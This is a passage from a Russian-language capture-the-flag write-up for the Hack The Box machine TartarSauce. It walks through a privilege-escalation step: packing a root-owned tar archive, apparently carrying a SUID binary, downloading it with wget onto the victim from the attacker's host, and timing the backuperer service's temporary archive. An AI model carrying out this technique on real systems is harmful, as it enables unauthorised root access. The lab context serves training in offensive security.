 И создаем архив, явно указав владельца и группу (необязательно, но к слову, что так можно делать):
```text
root@kali:~# tar -zcvf suid.tar.gz var --owner=root --group=root
```

2\. Загружаем на жертву:
```text
onuma@TartarSauce:/tmp$ wget http://10.10.14.14:31337/suid.tar.gz
--2018-11-01 16:42:41--  http://10.10.14.14:31337/suid.tar.gz
Connecting to 10.10.14.14:31337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2708 (2.6K) [application/gzip]
Saving to: 'suid.tar.gz'

suid.tar.gz   100%[===============================>]   2.64K  --.-KB/s    in 0s

2018-11-01 16:42:41 (256 MB/s) - 'suid.tar.gz' saved [2708/2708]
```

3\. Дожидаемся окна, в течении которого появляется и существует временный архив (или можно в "реалтайме" с помощью `watch -n 1 'systemctl list-timers'`):
```text
onuma@TartarSauce:/tmp$ systemctl list-timers
NEXT                         LEFT     LAST                         PASSED       UNIT                         ACTIVATES
Thu 2018-11-01 16:53:37 EDT  2s ago   Thu 2018-11-01 16:53:37 EDT  1s ago       backuperer.timer             backuperer.service
Fri 2018-11-02 00:46:00 EDT  7h left  Thu 2018-11-01 14:28:19 EDT  2h 25min ago apt-daily.timer              apt-daily.service
Fri 2018-11-02 06:34:42 EDT  13h left Thu 2018-11-01 14:28:19 EDT  2h 25min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
Fri 2018-11-02 14:43:29 EDT  21h left Thu 2018-11-01 14:43:29 EDT  2h 10min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

4 timers listed.
Pass --all to see loaded but inactive timers, too.
```

```text
onuma@TartarSauce:/tmp$ ls -la /var/tmp
total 11276
drwxrwxrwt  8 root  root      4096 Nov  1 16:53 .
drwxr-xr-x 14 root  root      4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 11511663 Nov  1 16:53 .7bd9d1b85480847307593e29d70d7b3286d3b586
drwx------  3 root  root      4096 Nov  1 14:28 systemd-private-04b0d1852f684988a72ce63bf6aa6163-systemd-timesyncd.service-rF9I4i
drwx------  3 root  root      4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root      4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root      4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root      4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root      4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
```
